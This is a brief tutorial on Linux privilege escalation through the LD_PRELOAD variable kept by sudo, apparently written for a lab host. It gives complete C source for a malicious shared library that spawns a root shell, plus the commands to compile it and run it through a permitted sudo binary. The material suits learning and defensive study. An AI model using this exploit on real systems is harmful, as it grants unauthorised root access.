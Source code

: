 # LD_PRELOAD Privilege Escalation
Let's see an example of how we can utilize the [LD_PRELOAD](https://blog.fpmurphy.com/2012/09/all-about-ld_preload.html) environment variable to escalate privileges. For this, we need a user with sudo privileges.

```bash
sudo -l

Matching Defaults entries for daniel.carter on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User daniel.carter may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/apache2 restart
```
We can see in last line `env_keep+=LD_PREALOAD` we can abuse it to get root using following maliciuos program:
```bash
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
To compile:
```bash
gcc -fPIC -shared -o root.so root.c -nostartfiles
```
Finally, to escalate we have to use full path of binary which is allowed to run as root without a password we saw it by `sudo -l` command:
```bash
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
```
